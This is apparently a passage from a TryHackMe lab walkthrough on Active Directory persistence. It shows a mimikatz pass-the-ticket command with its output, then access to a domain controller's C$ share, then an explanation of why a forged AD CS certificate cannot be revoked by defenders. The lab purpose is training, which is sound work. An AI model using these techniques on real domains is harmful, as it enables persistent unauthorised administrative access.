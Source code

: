 ```powershell
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye! 

za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,914,541,568 bytes free
```

### We Are No Longer Friends With The Blue Team

Certificate persistence is significantly harder to defend against. Even if you  rotate the credentials of the compromised account, the certificate will  still be valid. The only way to remove the persistence is to issue a  revocation of the certificate. However, this would only be possible if  we generated the certificate through legitimate channels. Since we  exported the CA and generated the certificate ourselves, it does not  appear on AD CS's list of issued certificates, meaning the blue team  will not be able to revoke our certificate. 

So what's the only  solution to remove the persistence? Well, this is why we are no longer  friends. They will have to revoke the root CA certificate. But revoking  this certificate means that all certificates issued by AD CS would all  of a sudden be invalid. Meaning they will have to generate a new  certificate for every system that uses AD CS. You should start to see  why this type of persistence is incredibly dangerous and would require  full rebuilds of systems if performed.
